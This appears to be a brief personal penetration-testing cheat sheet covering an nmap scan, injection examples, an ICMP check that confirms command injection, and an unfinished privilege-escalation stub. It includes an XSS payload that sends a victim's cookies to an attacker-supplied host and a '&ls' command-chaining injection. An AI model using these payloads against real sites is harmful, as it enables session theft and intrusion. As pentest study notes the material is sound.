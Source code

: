 # Pentest procedure

My personal procedure and ticks for pentest

## Discovery

The goal here is to discover the machine

1. Port scan

   Using nmap: `nmap -sV -p- -vvv -o nmap.txt $ip`

## Injection

Here, a memo of the different possible injections:
* insert javascript code (ex: `<script>document.location='http://<yourip>/?cookie='+document.cookie</script>`)
* continue linux command with '&' (ex: `&ls`)

Before inserting payload, we want to check if the command injection work.

1. open tcpdump to read icmp requests: `sudo tcpdump -i any -A icmp`
2. check that it works: `ping -c 1 $ip`
3. be sure your firewall accept icmp requests
4. 

## Privilege escalation

* expolit a relative path in a program
